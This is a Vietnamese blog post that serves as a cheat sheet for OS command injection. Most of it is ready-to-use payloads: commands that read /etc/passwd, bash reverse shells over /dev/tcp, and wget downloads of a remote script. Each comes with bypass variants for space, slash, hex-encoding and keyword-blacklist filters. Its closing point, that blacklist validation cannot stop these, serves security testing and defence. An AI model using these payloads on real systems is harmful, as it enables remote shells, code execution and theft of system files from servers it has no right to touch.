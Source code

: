 ![](https://images.viblo.asia/54aa9667-2535-4959-ad70-e66097fc2a03.jpg)

## 1. OS Command Injection là gì?

OS Command Injection (hay còn gọi là shell injection) là lỗ hổng cho phép kẻ tấn công thực thi các lệnh bất kì của hệ điều hành trên server chạy ứng dụng với đặc quyền của web server. Lỗ hổng xảy ra khi một ứng dụng gọi tới lệnh shell để thực thi một tác vụ với input do người dùng nhập vào nhưng không lọc một cách cẩn thận.

Lỗ hổng OS command injection có thể cho phép kẻ tấn công thực hiện các hành vi như:

* Thực thi lệnh hệ thống.
* Làm tổn hại tới ứng dụng, server chạy ứng dụng cũng như dữ liệu trên đó.
* Thực hiện SSRF.
* Remote Code Execution.

* ...

Để nắm rõ hơn về lỗ hổng , các bạn có thể tham khảo các bài viết tại [đây](https://viblo.asia/p/os-command-injection-la-gi-command-injection-co-nguy-hiem-khong-can-cuc-ky-than-trong-doi-voi-cac-lenh-os-goi-tu-website-cua-ban-OeVKB3PEZkW) [đây](https://viblo.asia/p/os-command-injection-Do754P4e5M6)  và  [đây](https://owasp.org/www-community/attacks/Command_Injection) 

## 2. Basic commands

Ở đây mình đưa ra 3 câu lệnh thường dùng sau khi đã phát hiện hệ thống kiểm thử bị ảnh hưởng bởi OS Command Injection 

1. Đọc file trên Server 
```
cat /etc/passwd
```

2. Reverse Shell 
```
bash -i >& /dev/tcp/127.0.0.1/8080 0>&1
```

3. Download reverse shell trên server
```
wget http://127.0.0.1:8080/x.sh -O /tmp/y.sh
```

## 3. Bypass without space

Trong trường hợp server ngăn chặn OS Commnad Injection bằng cách validate "dấu cách" . Chúng ta thực hiện bypass theo các cách sau :
1. Đọc file trên Server 

```bash script
* cat</etc/passwd

* (cat,/etc/passwd)

* cat${IFS}/etc/passwd

* X=$'cat\x20/etc/passwd'&&$X

* bash</etc/passwd

* IFS=,;$(cat<<<cat,/etc/passwd) (Chỉ hoạt động trên Bash Shell)
```

2. Reverse Shell

```bash script
* bash$IFS-i$IFS>&$IFS/dev/tcp/192.168.1.21/8080$IFS0>&1 

* echo${IFS}"RCE"${IFS}&&bash${IFS}-i${IFS}>&${IFS}/dev/tcp/127.0.0.1/8080$IFS0>&1

* sh</dev/tcp/127.0.0.1/8080

* IFS=,;`bash<<<bash,-i,>&/dev/tcp/127.0.0.1/8080;0>&1
```

3. Download reverse shell trên server

```bash script
* {wget,http://127.0.0.1:8080/x.sh,-O,/tmp/y.sh}

* wget${IFS}http://127.0.0.1:8080/x.sh${IFS}-O${IFS}/tmp/y.sh

* X=$'wget\x20http://127.0.0.1:8080/x.sh\x20-O\x20/tmp/y.sh'&&$X

* IFS=,;$(cat<<<wget,http://127.0.0.1:8080/x.sh,-O,/tmp/y.sh)
```


## 4. Bypass characters filter via hex encoding

1. Đọc file trên Server 

```bash script
* cat $(echo -e "\x2f\x65\x74\x63\x2f\x70\x61\x73\x73\x77\x64")

* cat $(xxd -r -p <<< 2f6574632f706173737764)

* cat $(xxd -r -ps <(echo 2f6574632f706173737764))
```

  (Trong đó giá trị `\x2f\x65\x74\x63\x2f\x70\x61\x73\x73\x77\x66` tương ứng với /etc/passwd sau khi được hex encoding)

2. Dowload reverse shell trên server 

```bash script
* $(xxd -r -p <<< 7767657420687474703a2f2f3132372e302e302e313a313231322f782e7368202d4f202f746d702f792e73680a)

* $(xxd -r -ps <(echo 7767657420687474703a2f2f3132372e302e302e313a313231322f782e7368202d4f202f746d702f792e73680a))

* $(echo -e "\x77\x67\x65\x74\x20\x68\x74\x74\x70\x3a\x2f\x2f\x31\x32\x37\x2e\x30\x2e\x30\x2e\x31\x3a\x31\x32\x31\x32\x2f\x78\x2e\x73\x68\x20\x2d\x4f\x20\x2f\x74\x6d\x70\x2f\x79\x2e\x73\x68\x0a")
```

(Trong đó giá trị  `7767657420687474703a2f2f3132372e302e302e313a313231322f782e7368202d4f202f746d702f792e73680a `tương ứng với "*wget http://127.0.0.1:1212/x.sh -O /tmp/y.sh*" sau khi được hex encoding)
  
## 5. Bypass without backslash and slash

Trong trường hợp server ngăn chặn OS Commnad Injection bằng cách validate dấu `"/"` và dấu` "\"` . Chúng ta thực hiện bypass theo các cách sau :

1. Đọc file trên Server 

```bash script
* cat ${HOME:0:1}etc${HOME:0:1}passwd

* cat $(echo . | tr '!-0' '"-1')etc$(echo . | tr '!-0' '"-1')passwd
```

   (Trong đó giá trị ${HOME:0:1} và (echo . | tr '!-0' '"-1') thay cho  / )

2. Reverse Shell

```bash script
* bash -i >& ${HOME:0:1}dev${HOME:0:1}tcp${HOME:0:1}127.0.0.1${HOME:0:1}8080 0>&1

* bash -i >& $(echo . | tr '!-0' '"-1')dev$(echo . | tr '!-0' '"-1')tcp$(echo . | tr '!-0' '"-1')127.0.0.1$(echo . | tr '!-0' '"-1')8080 0>&1
```

3. Download file trên server
```bash script
* wget http:${HOME:0:1}${HOME:0:1}127.0.0.1:8080${HOME:0:1}x.sh -O ${HOME:0:1}tmp${HOME:0:1}y.sh

* wget http:$(echo . | tr '!-0' '"-1')$(echo . | tr '!-0' '"-1')127.0.0.1:8080$(echo . | tr '!-0' '"-1')x.sh -O $(echo . | tr '!-0' '"-1')tmp$(echo . | tr '!-0' '"-1')y.sh
```

## 6. Bypass Blacklisted words

Trong trường hợp server ngăn chặn OS Commnad Injection bằng cách không cho nhập các commnad thông thường như "cat , more , bash , wget .. " Chúng ta thực hiện bypass theo các cách sau :

1. Đọc file trên Server 

```
* c'a't /etc/passwd

* c"a"t /etc/passwd

* c\a\t /etc/passwd

* ca$@t /etc/passwd

* /???/c?t /etc/passwd

* /???/c?t /?tc/?as?wd
```

2. Reverse Shell

```
* b'a'sh -i >& /dev/tcp/127.0.0.1/8080 0>&1

* b"a"sh -i >& /dev/tcp/127.0.0.1/8080 0>&1

* b\a\s\h -i >& /dev/tcp/127.0.0.1/8080 0>&1

* ba$@sh -i >& /dev/tcp/127.0.0.1/8080 0>&1

* /???/b?sh -i >& /dev/tcp/127.0.0.1/8080 0>&1
```

3. Download file trên server
```

* w'ge't http://127.0.0.1:8080/x.sh -O /tmp/y.sh

* w"ge"t http://127.0.0.1:8080/x.sh -O /tmp/y.sh

* /???/?i?/w?et http://127.0.0.1:8080/x.sh -O /tmp/y.sh
```

## 7. Bypass with a line return

* `something%0Acat%20/etc/passwd`

## 8. Kết luận

Đến đây chúng ta có thể thấy được rằng, nếu cố gắng validate OS Command Injection theo Blacklist, sẽ có vô vàn các cách khác nhau để Hacker có thể vượt qua.

## 9. Nguồn

Nguồn tài liệu mình sử dụng tại [đây](https://github.com/swisskyrepo/PayloadsAllTheThings) . PayloadsAllTheThings là kho chứa rất nhiều kiến thức thú vị về bảo mật mà mình nghĩ bạn nên xem qua .